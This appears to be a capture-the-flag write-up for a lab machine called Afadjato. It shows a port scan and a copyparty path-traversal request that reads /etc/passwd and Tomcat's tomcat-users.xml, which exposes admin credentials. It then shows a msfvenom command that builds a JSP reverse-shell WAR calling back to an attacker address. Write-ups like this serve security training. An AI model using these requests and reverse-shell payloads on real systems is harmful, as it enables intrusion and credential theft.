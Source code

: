 ![](./images/afadjato.png)
upon scanning afadjato, we find two ports open
``` rustscan -a 10.0.13.1 -r1-65535 --ulimit 5000 
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.13.1:9709
open 10.0.13.1:8080 

```

port 8080 and port 9709

visiting port 8080 we get a tomcat hompage 

![](./images/tomcat.png)

and visiting port 9709 we get a different application, which looks like a media player

![](./images/copyparty.png)

mapping the application we found out it was called copyparty, so we searched public exploit and we did got one

> curl -i -s -k -X  GET 'http://10.0.10.1:9709/.cpr/%2Fetc%2Fpasswd'
```
curl -i -s -k -X  GET 'http://10.0.13.1:9709/.cpr/%2Fetc%2Fpasswd'
HTTP/1.1 200 OK
Content-Length: 973
Connection: Keep-Alive
Date: Sun, 06 Oct 2024 14:39:56 GMT
Vary: Origin, PW, Cookie
Cache-Control: no-cache
Last-Modified: Sun, 22 Sep 2024 19:34:47 GMT
Accept-Ranges: bytes
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
BRCTF:x:1000:1000:BRCTF User:/home/BRCTF:/bin/bash

```

this payload will the /etc/passwd file from the target machine
it doesnt really do much since we want to get a shell on the machine
but remember there was another service (tomcat)

if we are able to login to tomcat we might be able to do something, so what we did was to use the exploit and change the path to refrence the config of tomcat 

> .cpr/%2Fopt%2Fapache-tomcat-10.1.29%2Fconf%2Ftomcat-users.xml

```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
	<role rolename="manager-gui"/>
	<user username="admin" password="hellyPass4Admin" roles="manager-gui"/>

</tomcat-users>

```

and we get the config file for tomcat, with some credentials at the end of the script

we use the credentials to login into tomcat,

![](./images/tomcat2.png)
 now its time to get a shell

we generated a vulnerable war file using msfvenom 

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.66 LPORT=443 -f war -o ghostshell.war

and set our listener on our attacker machine, then uploaded the war file and vistied the url, and we had a shell

![](./images/shell.png)

### That is it for Afadjato


